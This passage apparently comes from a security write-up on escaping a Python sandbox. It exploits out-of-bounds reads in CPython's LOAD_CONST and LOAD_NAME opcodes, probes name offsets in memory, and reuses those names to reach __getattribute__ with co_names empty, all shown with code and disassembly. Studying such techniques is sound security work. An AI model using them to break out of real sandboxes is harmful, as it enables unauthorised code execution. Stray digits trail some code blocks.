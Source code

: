 ```c
case TARGET(LOAD_CONST): {
    PREDICTED(LOAD_CONST);
    PyObject *value = GETITEM(consts, oparg);
    Py_INCREF(value);
    PUSH(value);
    FAST_DISPATCH();
}1234567
```

In this way we can use the OOB feature to get a "name" from arbitrary memory offset. To make sure what name it has and what's it's offset, just keep trying `LOAD_NAME 0`, `LOAD_NAME 1` ... `LOAD_NAME 99` ... And you could find something in about oparg > 700. You can also try to use gdb to take a look at the memory layout of course, but I don't think it would be more easier?

### Generating the Exploit <a href="#generating-the-exploit" id="generating-the-exploit"></a>

Once we retrieve those useful offsets for names / consts, how _do_ we get a name / const from that offset and use it? Here is a trick for you:\
Let's assume we can get a `__getattribute__` name from offset 5 (`LOAD_NAME 5`) with `co_names=()`, then just do the following stuff:

```python
[a,b,c,d,e,__getattribute__] if [] else [
    [].__getattribute__
    # you can get the __getattribute__ method of list object now!
]1234
```

> Notice that it is not necessary to name it as `__getattribute__`, you can name it as something shorter or more weird

You can understand the reason behind by just viewing it's bytecode:

```python
              0 BUILD_LIST               0
              2 POP_JUMP_IF_FALSE       20
        >>    4 LOAD_NAME                0 (a)
        >>    6 LOAD_NAME                1 (b)
        >>    8 LOAD_NAME                2 (c)
        >>   10 LOAD_NAME                3 (d)
        >>   12 LOAD_NAME                4 (e)
        >>   14 LOAD_NAME                5 (__getattribute__)
             16 BUILD_LIST               6
             18 RETURN_VALUE
             20 BUILD_LIST               0
        >>   22 LOAD_ATTR                5 (__getattribute__)
             24 BUILD_LIST               1
             26 RETURN_VALUE1234567891011121314
```

Notice that `LOAD_ATTR` also retrieve the name from `co_names`. Python loads names from the same offset if the name is the same, so the second `__getattribute__` is still loaded from offset=5. Using this feature we can use arbitrary name once the name is in the memory nearby.
